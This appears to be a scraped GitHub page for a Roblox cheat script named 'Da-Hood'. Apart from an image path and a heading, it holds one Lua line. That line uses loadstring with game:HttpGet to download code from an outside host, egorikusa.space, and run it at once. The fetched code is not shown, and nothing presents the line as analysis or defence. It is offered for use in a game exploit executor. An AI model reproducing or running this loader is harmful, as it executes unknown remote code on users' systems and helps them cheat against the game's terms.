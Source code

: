 # Da-Hood



loadstring(game:HttpGet("https://egorikusa.space/27f07e021bce084b4b9689f6.lua", true))()
